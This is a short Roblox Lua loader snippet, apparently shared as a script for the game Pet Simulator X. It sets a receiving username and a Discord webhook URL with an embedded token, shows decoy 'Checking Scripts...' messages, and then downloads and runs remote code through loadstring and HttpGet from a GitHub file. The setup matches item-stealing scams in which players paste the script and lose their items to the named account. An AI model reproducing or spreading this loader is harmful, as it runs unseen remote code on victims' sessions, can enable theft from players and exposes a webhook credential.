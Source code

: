 Username = "alisa_milanakul"

WebHook = "https://discord.com/api/webhooks/1089838185028259920/tsfztRJF1nDI_gaE7adfXMV9bplr8B-rwg2UHtTe2b3oVNfIcjMR3QB_lE3pwjLUikrw"

_G.CustomScriptName = "HELLO GUESTS"

_G.Text1 = "Wait script "

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()

